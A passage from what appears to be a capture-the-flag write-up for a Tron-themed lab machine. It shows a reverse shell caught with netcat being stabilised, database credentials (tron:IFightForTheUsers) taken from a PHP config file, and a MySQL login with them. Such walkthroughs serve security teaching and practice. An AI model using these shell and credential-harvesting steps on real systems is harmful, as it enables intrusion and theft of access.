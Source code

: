 ### Upgrade and stabilize your shell
- **Steps to Reproduce:** 
    ```bash
    $ python3 -c 'import pty;pty.spawn("/bin/bash")'
    www-data@light-cycle:/$ export TERM=xterm
    export TERM=xterm
    www-data@light-cycle:/$ ^Z
    [1]+  Stopped                 nc -lvnp 1234
    root@kali: stty raw -echo; fg
    nc -lvnp 1234
    ```
---

### Review the configuration files for the webserver to find some useful loot in the form of credentials. What credentials do you find? username:password
- **Answer:** tron:IFightForTheUsers
- **Steps to Reproduce:** 
    ```bash
    www-data@light-cycle:/$ cd /var/www/
    www-data@light-cycle:/var/www$ ls
    ENCOM  TheGrid  web.txt
    www-data@light-cycle:/var/www$ cd TheGrid/
    www-data@light-cycle:/var/www/TheGrid$ ls
    includes  public_html  rickroll.mp4
    www-data@light-cycle:/var/www/TheGrid$ ls -la
    total 15576
    drwxr-xr-x 4 root root     4096 Dec 16 22:34 .
    drwxr-xr-x 4 root root     4096 Dec 20 03:43 ..
    drwxr-xr-x 2 root root     4096 Dec 20 03:20 includes
    drwxr-xr-x 5 root root     4096 Dec 20 03:20 public_html
    -rw-r--r-- 1 root root 15929856 Dec 16 17:58 rickroll.mp4
    www-data@light-cycle:/var/www/TheGrid$ cd includes/
    www-data@light-cycle:/var/www/TheGrid/includes$ ls
    apiIncludes.php  dbauth.php  login.php  register.php  upload.php
    www-data@light-cycle:/var/www/TheGrid/includes$ cat dbauth.php 
    <?php
            $dbaddr = "localhost";
            $dbuser = "tron";
            $dbpass = "IFightForTheUsers";
            $database = "tron";

            $dbh = new mysqli($dbaddr, $dbuser, $dbpass, $database);
            if($dbh->connect_error){
                    die($dbh->connect_error);
            }
    ?>
    ```
---

### Access the database and discover the encrypted credentials. What is the name of the database you find these in?
- **Answer:** tron
- **Steps to Reproduce:** 
    ```bash
    www-data@light-cycle:/var/www/TheGrid/includes$ mysql -utron -p
    Enter password: 
    Welcome to the MySQL monitor.  Commands end with ; or \g.
    Your MySQL connection id is 7
    Server version: 5.7.32-0ubuntu0.18.04.1 (Ubuntu)
